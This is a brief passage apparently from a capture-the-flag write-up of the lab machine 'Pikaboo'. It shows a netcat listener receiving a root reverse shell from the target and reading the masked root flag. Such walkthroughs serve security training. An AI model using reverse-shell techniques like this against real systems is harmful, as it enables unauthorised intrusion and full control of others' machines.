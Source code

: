 It also returns a shell:

```

oxdf@parrot$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.249] 49602
bash: cannot set terminal process group (2772): Inappropriate ioctl for device
bash: no job control in this shell
root@pikaboo:/srv/ftp/types# 

```

Either way, I can grab `root.txt`:

```

root@pikaboo:~# cat root.txt
3a9a1e35************************

```